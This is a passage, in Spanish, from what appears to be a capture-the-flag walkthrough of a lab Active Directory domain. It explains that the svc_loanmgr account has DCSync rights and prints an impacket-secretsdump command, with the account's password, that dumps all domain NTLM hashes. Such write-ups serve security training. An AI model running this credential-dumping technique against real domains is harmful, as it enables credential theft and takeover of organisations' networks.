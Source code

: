 
El usuario svc_loanmgr tiene permisos de ``DCSync``. Es decir, que puede volcar todos los hashes NTLM de los usuarios del dominio.

Si hacemos click derecho -> Help, veremos más información al respecto:
![44](Images/44.png)


Para explotar este ataque lo hacemos con ``impacket-secretsdump``.

``impacket-secretsdump EGOTISTICAL-BANK.LOCAL/'svc_loanmgr':'Moneymakestheworldgoround!'@'10.10.10.175'``
![45](Images/45.png)
